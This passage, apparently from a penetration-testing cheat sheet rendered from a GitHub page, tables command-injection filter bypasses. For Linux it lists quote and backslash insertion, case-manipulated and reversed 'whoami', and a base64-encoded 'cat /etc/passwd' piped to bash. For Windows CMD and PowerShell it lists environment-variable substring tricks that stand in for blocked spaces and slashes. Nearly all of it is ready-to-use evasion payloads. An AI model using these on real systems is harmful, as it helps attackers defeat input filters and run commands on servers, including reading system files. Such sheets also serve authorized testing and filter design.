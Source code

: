 
## Blacklisted Command Bypass

|Code|Description|
|---|---|
|**Character Insertion**||
|`'` or `"`|Total must be even|
|`$@` or `\`|Linux only|
|**Case Manipulation**||
|`$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`|Execute command regardless of cases|
|`$(a="WhOaMi";printf %s "${a,,}")`|Another variation of the technique|
|**Reversed Commands**||
|`echo 'whoami' \| rev`|Reverse a string|
|`$(rev<<<'imaohw')`|Execute reversed command|
|**Encoded Commands**||
|`echo -n 'cat /etc/passwd \| grep 33' \| base64`|Encode a string with base64|
|`bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`|Execute b64 encoded string|

---

# Windows

## Filtered Character Bypass

|Code|Description|
|---|---|
|`Get-ChildItem Env:`|Can be used to view all environment variables - (PowerShell)|
|**Spaces**||
|`%09`|Using tabs instead of spaces|
|`%PROGRAMFILES:~10,-5%`|Will be replaced with a space - (CMD)|
|`$env:PROGRAMFILES[10]`|Will be replaced with a space - (PowerShell)|
|**Other Characters**||
|`%HOMEPATH:~0,-17%`|Will be replaced with `\` - (CMD)|
|`$env:HOMEPATH[0]`|Will be replaced with `\` - (PowerShell)|

---
